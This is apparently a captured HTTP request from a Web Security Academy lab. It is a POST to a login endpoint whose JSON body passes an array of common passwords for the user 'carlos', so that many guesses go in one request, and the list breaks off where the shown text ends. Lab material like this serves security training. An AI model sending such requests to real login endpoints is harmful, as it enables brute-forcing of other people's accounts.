 
```
POST /login HTTP/2
Host: 0a37008704bb9abc8132308d00660097.web-security-academy.net
Cookie: session=9bdwFQvaZDkZbRN70aKgad4YILs32nUP
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a37008704bb9abc8132308d00660097.web-security-academy.net/login
Content-Type: application/json
Content-Length: 1188
Origin: https://0a37008704bb9abc8132308d00660097.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"username":"carlos","password":  ["123456",
"password",
"12345678",
"qwerty",
"123456789",
"12345",
"1234",
"111111",
"1234567",
"dragon",
"123123",
"baseball",
"abc123",
"football",
"monkey",
"letmein",
"shadow",
"master",
"666666",
"qwertyuiop",
"123321",
"mustang",
"1234567890",
"michael",
"654321",
"superman",
"1qaz2wsx",
"7777777",
"121212",
"000000",
"qazwsx",
"123qwe",
"killer",
"trustno1",
"jordan",
"jennifer",
"zxcvbnm",
"asdfgh",
"hunter",
"buster",
"soccer",
"harley",
"batman",
"andrew",
"tigger",
```